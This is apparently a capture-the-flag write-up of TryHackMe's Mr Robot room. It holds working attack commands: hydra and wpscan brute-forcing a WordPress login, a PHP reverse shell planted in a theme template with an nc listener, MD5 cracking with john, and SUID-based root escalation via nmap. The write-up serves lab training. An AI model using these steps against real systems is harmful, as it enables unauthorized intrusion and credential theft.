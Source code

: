 ## Mr Robot CTF [THM]

![image](images/258005482-57cfddb9-c046-4f14-90f1-e4225d1fe13f.png)


Link: https://tryhackme.com/room/mrrobot

Goal: 3 keys

## nmap
```
nmap -sC -sV 10.10.44.210            
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-02 04:55 EDT
Nmap scan report for 10.10.44.210
Host is up (0.22s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open   ssl/http Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.46 seconds
```
- Port 22 close
- Port 80 open
- Port 443 open

## view web [port 80]

![image](images/257760405-cf42b083-2891-4517-88cb-18ac79e35e23.png)

## dirsearch
```
dirsearch -u 10.10.44.210             
                                                                               
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10927

Target: http://10.10.44.210/

[05:22:22] Starting: 
[05:23:35] 200 -    1KB - /admin/                                           
[05:23:35] 200 -    1KB - /admin/?/login             
[05:23:37] 200 -    1KB - /admin/index                                      
[05:23:37] 200 -    1KB - /admin/index.html                                 
[05:24:53] 200 -    0B  - /favicon.ico                                              
[05:25:07] 200 -    1KB - /index.html                                                                                  
[05:25:14] 200 -  504KB - /intro                                            
[05:25:16] 200 -  309B  - /license                                          
[05:25:16] 200 -  309B  - /license.txt
[05:25:55] 200 -   64B  - /readme                                           
[05:25:55] 200 -   64B  - /readme.html                                      
[05:25:58] 200 -   41B  - /robots.txt                                                  
[05:26:08] 200 -    0B  - /sitemap                                          
[05:26:08] 200 -    0B  - /sitemap.xml.gz                                   
[05:26:08] 200 -    0B  - /sitemap.xml
[05:26:35] 200 -    1B  - /wp-admin/admin-ajax.php                   
[05:26:35] 200 -    0B  - /wp-config.php
[05:26:35] 200 -    0B  - /wp-content/                                                         
[05:26:35] 200 -    0B  - /wp-content/plugins/google-sitemap-generator/sitemap-core.php                  
[05:26:36] 200 -    0B  - /wp-cron.php
[05:26:36] 200 -    3KB - /wp-login
[05:26:36] 200 -    3KB - /wp-login.php                                     
[05:26:36] 200 -    3KB - /wp-login/                                        

Task Completed
```
- /robots.txt
- /wp-login

## robots.txt

![image](images/257761197-c2a5b7b6-fc4c-4c46-b7d9-55dc34cc3ab4.png)

- fsocity.dic
- key-1-of-3.txt

## key 1

![image](images/257761795-ebc8f0cc-d162-4bfc-b0bb-2f3353c27aec.png)

## download fsociety.dic

![image](images/257763233-d40f3f58-7dc7-4171-bd82-db75b4ca66f4.png)

- to sort and filter duplicate
```
sort fsocity.dic | uniq > filter.txt
```

## wp-login

![image](images/257769941-f7433ee8-b9d5-452c-a2f6-4b039608c1c1.png)

## hydra [bruteforce username]
```
hydra -L filter.txt -p admin 10.10.191.118 http-post-form "/wp-login.php:log=^USER^&pwd=admin&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.191.118%2Fwp-admin%2F&testcookie=1:Invalid username" -V

Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
[DATA] max 16 tasks per 1 server, overall 16 tasks, 11452 login tries (l:11452/p:1), ~716 tries per task
[DATA] attacking http-post-form://10.10.191.118:80/wp-login.php:log=^USER^&pwd=admin&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.191.118%2Fwp-admin%2F&testcookie=1:Invalid username
[ATTEMPT] target 10.10.191.118 - login "000" - pass "admin" - 1 of 11452 [child 0] (0/0)
[80][http-post-form] host: 10.10.191.118   login: elliot   password: admin
[80][http-post-form] host: 10.10.191.118   login: Elliot   password: admin
[80][http-post-form] host: 10.10.191.118   login: ELLIOT   password: admin
[ATTEMPT] target 10.10.191.118 - login "Embedded" - pass "admin" - 5489 of 11452 [child 12] (0/0)
```
- found username: elliot, Elliot, ELLIOT

## wpscan [bruteforce password]
- using username from hydra
```
wpscan --url http://10.10.245.248/wp-login -U Elliot -P filter.txt    

Interesting Finding(s):

[+] Performing password attack on Wp Login against 1 user/s
[SUCCESS] - Elliot / ER28-0652                                                                                             
Trying Elliot / erased Time: 00:08:34 <==============                                > (5630 / 17081) 32.96%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: Elliot, Password: ER28-0652
```
- found Username: Elliot, Password: ER28-0652

## successfully login

![image](images/257867577-57d938ad-5b04-4a35-926e-5075a7da1656.png)

## setup php reverse shell
- goto editor => edit 404 template => replace with php reverse shell => update file

![image](images/257870081-cc9fb496-64c0-4fc0-bf64-335f3d1182e9.png)

## setup netcat listener
- goto `http://10.10.191.118/wordpress/wp-content/themes/twentyfifteen/404.php` dont forget to open listener `nc -lnvp 1337` on terminal

![image](images/257871519-b6020c84-067a-4f2b-8734-9bb82d14b0bf.png)

- `python3 -c 'import pty;pty.spawn("/bin/bash")'` upgrade shell
- `export TERM=xterm` enable clear

## cd /home/robot
- `cat password.raw-md5` `robot:c3fcd3d76192e4007dfb496cca67e13b`
- `cat key-2-of-3.txt` `Permission denied`

![image](images/257877739-bb3fb870-6da9-4d78-b614-31155ac89681.png)


## crack md5 hash
```
john --format=Raw-MD5 --wordlist=/home/kali/Desktop/rockyou.txt hash 
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 SSE2 4x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
abcdefghijklmnopqrstuvwxyz (?)     
1g 0:00:00:00 DONE (2023-08-02 12:12) 5.263g/s 213221p/s 213221c/s 213221C/s bonjour1..123092
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```

- found password: abcdefghijklmnopqrstuvwxyz

## switch user to robot

![image](images/257878256-ce39eb3b-2a3d-4efa-b7b3-9ec1ec630974.png)

## key 2

![image](images/257878716-8ded0f0d-6d7d-46dc-ade5-c1fe5d1a92fc.png)

## privilege escalation
- using SUID Commands `find / -user root -perm /4000 2>/dev/null`

![image](images/257879984-74d1126b-baf4-4607-86d9-d01986e855c3.png)

- Search GTFObins for [nmap](https://gtfobins.github.io/gtfobins/nmap/) because it looks sus here.

![image](images/257884196-45e99a78-295b-4192-9b94-9c33460b5800.png)

- root!

## key 3

![image](images/257884617-b26a09eb-3d7f-4402-a63f-1bf3bf9b0089.png)

- PWNED! :star:
